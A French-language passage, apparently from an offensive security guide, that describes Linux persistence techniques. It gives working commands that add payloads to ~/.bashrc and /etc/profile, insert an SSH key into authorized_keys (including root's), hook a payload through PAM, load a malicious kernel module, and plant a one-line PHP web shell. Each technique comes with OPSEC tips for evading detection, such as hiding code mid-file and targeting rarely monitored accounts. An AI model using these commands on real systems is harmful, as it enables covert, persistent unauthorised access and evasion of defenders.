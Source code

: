 ```
echo "/tmp/payload.sh &" >> ~/.bashrc
```

Pour une persistance au niveau système affectant tous les utilisateurs :

```
echo "/tmp/payload.sh &" >> /etc/profile
```

Cette approche est particulièrement efficace dans les environnements où les utilisateurs se connectent régulièrement via SSH.

Du point de vue OPSEC, les modifications des fichiers de profil sont relativement faciles à détecter lors d'une investigation approfondie. Pour minimiser les risques, il est recommandé d'ajouter le code malveillant au milieu du fichier plutôt qu'à la fin, et d'utiliser des techniques d'obfuscation pour dissimuler l'exécution de la charge utile.

### Clés SSH autorisées

L'ajout d'une clé SSH au fichier `authorized_keys` d'un utilisateur permet de maintenir l'accès même en cas de changement de mot de passe :

```
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
```

Pour une persistance plus robuste, on peut cibler le compte root ou des comptes de service rarement utilisés.

Du point de vue OPSEC, les clés SSH autorisées sont régulièrement vérifiées dans les environnements sécurisés. Pour minimiser les risques de détection, il est recommandé d'utiliser des commentaires plausibles pour la clé et de cibler des comptes légitimes mais rarement surveillés.

### Autres techniques de persistance Linux

Plusieurs autres mécanismes peuvent être utilisés pour la persistance sous Linux :

Les modules PAM (Pluggable Authentication Modules) peuvent être modifiés pour exécuter du code lors de l'authentification :

```
echo "session optional pam_exec.so /tmp/payload.sh" >> /etc/pam.d/common-session
```

Les modules de noyau (Kernel Modules) permettent d'exécuter du code avec les privilèges du noyau, offrant une persistance très discrète mais complexe à mettre en œuvre :

```
insmod /tmp/malicious.ko
echo "malicious" >> /etc/modules
```

Les web shells, placés dans les répertoires des serveurs web, permettent de maintenir l'accès via HTTP/HTTPS :

```
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/info.php
```

